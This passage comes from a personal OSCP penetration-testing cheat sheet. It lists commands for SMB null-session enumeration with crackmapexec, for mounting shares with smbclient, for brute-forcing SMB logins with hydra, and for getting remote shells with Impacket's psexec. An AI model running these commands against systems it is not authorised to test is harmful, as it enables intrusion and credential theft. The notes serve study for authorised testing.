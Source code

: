             #enumerate the users
            		#rid brute forcing
            		cme smb $ip -u "" -p "" --rid-brute
            		#active sessions
            		cme smb $ip -u '' -p '' --loggedon-users
            		#users in general
            		cme smb $ip -u '' -p '' --users
            #enumerate the groups
            		#local groups
            		cme smb $ip -u '' -p '' --local-groups
            		#domain groups
            		cme smb $ip -u '' -p '' --groups
            #check for the password policy
            		cme smb $ip -u "" -p "" --pass-pol
            ```
            
            Mount shares and inspect files manually:
            
            ```bash
            #smbclient
            smbclient -L $ip
            smbclient //$ip/tmp
            smbclient \\\\192.168.1.105\\ipc$ -U john
            smbclient //$ip/ipc$ -U john
            #mounting the share
            mkdir /mnt/targetshare
            mount -t cifs \\172.16.20.88\ipc$ -o username=[username] /mnt/targetshare
            ```
            
            Brute force smb:
            
            ```bash
            hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt $ip smb -V -f
            #in OSCP the passwords are often equal to the username
            hydra -L usernames.txt -P usernames.txt $ip smb -V -f
            ```
            
            Gaining shell through `psexec` (user needs to be admin):
            
            ```bash
            #copy script
            cp /usr/share/doc/python-impacket/examples/psexec.py .
            #specific command test
            python psexec.py <username>:<pass>@10.11.xx.xx whoami
            #shell
            rlwrap python psexec.py  <username>:<pass>@10.11.xx.xx
            #NOTE: be carefull with exclamation marks in passwords:  rottenadmin:P@ssword123\!@192.168.194.140
            #through crackmapexec (didn't always work for me)
            cme smb 10.11.xx.xx -u "backup" -p "backup" -x whoami
            ```
            
        - **1433 - MSSQL**
            
            @1433-MSSQL 📎 This section links to my private notes — similar structure to HackTricks, but customized.
            